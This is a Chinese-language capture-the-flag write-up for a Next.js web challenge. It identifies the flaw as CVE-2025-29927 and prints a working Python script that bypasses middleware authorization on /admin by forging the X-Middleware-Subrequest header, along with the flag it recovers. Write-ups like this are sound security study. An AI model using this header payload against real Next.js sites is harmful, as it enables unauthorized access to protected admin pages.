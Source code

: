 ##### tags: `NoHackNoCTF_2025`
# No Hack No CTF 2025 Web : Next Song is 春日影

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

<span class=""></span>

## <span class="red">題目</span>

- ![image](https://hackmd.io/_uploads/B116euLBxx.png)

## <span class="red">解題過程</span>

1. **這題可以直接搜關鍵字 `NextJS Vulnerability at /admin` ，會發現這應該是在考 `CVE-2025-29927`，然後因為不確定的因素導致 burp 沒有辦法觀察流量，所以只能自己寫 script 互動**

- **website : https://www.acunetix.com/blog/web-security-zone/next-js-middleware-bypass-vulnerability/**
- ![image](https://hackmd.io/_uploads/B1kzzdUrge.png)

- ![image](https://hackmd.io/_uploads/HJ82zdUHll.png)

&emsp;

2. **`url` 一樣使用題目給的，要設定的只有 header (要塞 payload) ，然後方法先用 `get` (偵察手段)，執行 python payload 就能看到 flag 了 
(ps 我記得某個 CTF ，或是某個論壇也有談過這個 CVE)**

    ```python=
    import requests


    # based on the description of question 
    url = "https://nhnc_next-song.frankk.uk/admin"


    headers = {
        "Host": "nhnc_next-song.frankk.uk",
        "X-Middleware-Subrequest": "middleware:middleware:middleware:middleware:middleware"
    }

    response = requests.get(url, headers=headers, verify=False)

    print("Status Code:", response.status_code)
    print("Response Headers:", response.headers)
    print("Response Body:\n", response.text)
    ```

- ![image](https://hackmd.io/_uploads/S1M-Xd8rxx.png)

- **flag🚩 :`NHNC{ANon_iS_cUtE_RIGhT?}`**

&emsp;

## <span class="red">更新</span>

1. **不能 SSL 是個意外，作者說對付這種 cli 可以直接 curl 就好**

- ![image](https://hackmd.io/_uploads/HkBUULvHgx.png)

